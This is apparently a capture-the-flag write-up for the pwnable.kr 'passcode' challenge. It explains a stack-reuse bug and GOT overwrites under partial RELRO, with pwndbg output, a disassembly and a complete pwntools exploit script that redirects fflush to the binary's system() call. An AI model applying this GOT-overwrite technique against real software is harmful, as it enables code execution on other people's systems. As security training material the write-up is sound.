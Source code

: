 # Passcode

First observation:
```c
scanf("%d", passcode1);
scanf("%d", passcode2);
```

The address should be used here, not the value. Also, both values are
uninitialized. How can we set their values?

Since nothing cleans up the stack when you enter and leave functions, the values
that you set on the stack will stay there until they are assigned to.

Using this train of thought, we can probably assign to `passcode1` and
`passcode2` if we populate values on the stack and leave them there.

Conveniently, we have a `name` string in `welcome()` that allows us to do just
that.

Let's calculate the offsets.

```gdb
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> ni
enter you name : aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

We see that:
```
&passcode1 = $ebp - 0x10
&passcode2 = $ebp - 0x0c
```

Then try:
```gdb
pwndbg> ds ebp-0x10
ffffc2a8 'yaaa'
pwndbg> ds ebp-0xc0
ffffc1f8 None
```

Looks like we can set `passcode1` with the last 4 bytes of `name`. However, we
can't set `passcode2`.

To set `passcode1`, we need 96 bytes of filler. The last 4 bytes will be some
address that we will overwrite using `scanf`.

Another way to calculate the offset:
```gdb
pwndbg> cyclic -l yaaa
96
```

Anyway, some Googling I found out that a GOF attack will work here.

Immediately after the call to `scanf`, we call `fflush(stdin)`. Since this is
the first call to `fflush`, it isn't mapped to a real address yet.

### Aside on the GOT and PLT

- `plt`: Procedure Linkage Table
- `got`: Global Offset Table

The `plt` is always called first. Each entry in the `plt` looks like this:
- The first instruction is a jump to a function pointer
  - We must dereference it before we jump
  - If it's the first time calling this function, this function pointer points
    to an entry in the `.got.plt`.
      - This entry is initially simply set to the address of the next
        instruction of the `plt` entry.
  - If it's not the first time calling this function, this function pointer
    already points to the calculated real address. We just jump there and never
    execute the subsequent instructions.
- The next instructions are as follows:
  - Push some constant to the stack (a parameter representing the slot number)
  - Jump to a constant address (routine for calculating real address)
  - Set the function pointer of the `plt` entry to the calculated real address

Relocation Read-Only (RELRO) settings:
- Partial
  - `plt` is read-only
  - `.got.plt` is writeable
  - This means that if we control the address of `.got.plt` and it's the first
    time calling the function, we will jump to that address we specified
- Complete
  - `plt` and `.got.plt` are prepopulated by the linker when the program starts
  - Write access is removed
  - Exploit not possible

More info: https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html.

---

Our goal is to write the jump destination in the `.got.plt` for `fflush`. We can
assign an arbitrary address here, so let's pick the address at the `system`
call.

```gdb
pwndbg> disassemble login
Dump of assembler code for function login:
   0x08048564 <+0>: push   ebp
   0x08048565 <+1>: mov    ebp,esp
   0x08048567 <+3>: sub    esp,0x28
   0x0804856a <+6>: mov    eax,0x8048770
   0x0804856f <+11>:    mov    DWORD PTR [esp],eax
   0x08048572 <+14>:    call   0x8048420 <printf@plt>
=> 0x08048577 <+19>:    mov    eax,0x8048783
   0x0804857c <+24>:    mov    edx,DWORD PTR [ebp-0x10]
   0x0804857f <+27>:    mov    DWORD PTR [esp+0x4],edx
   0x08048583 <+31>:    mov    DWORD PTR [esp],eax
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:    mov    eax,ds:0x804a02c
   0x08048590 <+44>:    mov    DWORD PTR [esp],eax
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
   0x08048598 <+52>:    mov    eax,0x8048786
   0x0804859d <+57>:    mov    DWORD PTR [esp],eax
   0x080485a0 <+60>:    call   0x8048420 <printf@plt>
   0x080485a5 <+65>:    mov    eax,0x8048783
   0x080485aa <+70>:    mov    edx,DWORD PTR [ebp-0xc]
   0x080485ad <+73>:    mov    DWORD PTR [esp+0x4],edx
   0x080485b1 <+77>:    mov    DWORD PTR [esp],eax
   0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:    mov    DWORD PTR [esp],0x8048799
   0x080485c0 <+92>:    call   0x8048450 <puts@plt>
   0x080485c5 <+97>:    cmp    DWORD PTR [ebp-0x10],0x528e6
   0x080485cc <+104>:   jne    0x80485f1 <login+141>
   0x080485ce <+106>:   cmp    DWORD PTR [ebp-0xc],0xcc07c9
   0x080485d5 <+113>:   jne    0x80485f1 <login+141>
   0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5 <--- We want this
   0x080485de <+122>:   call   0x8048450 <puts@plt>
   0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   0x080485ef <+139>:   leave
   0x080485f0 <+140>:   ret
   0x080485f1 <+141>:   mov    DWORD PTR [esp],0x80487bd
   0x080485f8 <+148>:   call   0x8048450 <puts@plt>
   0x080485fd <+153>:   mov    DWORD PTR [esp],0x0
   0x08048604 <+160>:   call   0x8048480 <exit@plt>
End of assembler dump.
```

Goal address: `0x080485d7`

Script:

```python
import pwn

io = pwn.ssh(
    host='pwnable.kr',
    port=2222,
    user='passcode',
    password='guest'
)

# e_file = io.download_file('passcode')
e = pwn.ELF('./passcode')

io = io.run('./passcode')

fflush_got_plt = e.symbols['got.fflush']
goal_addr = 0x80485d7

name = b'A' * 96 + pwn.p32(fflush_got_plt)
print(name)

p1 = str(goal_addr).encode()
print(p1)

# with open('access', 'wb') as f:
#     f.write(name)
#     f.write(p1)
#     f.write(p2)

io.sendline(name)
io.sendline(p1)
print(io.recvall().decode(errors='ignore'))
```

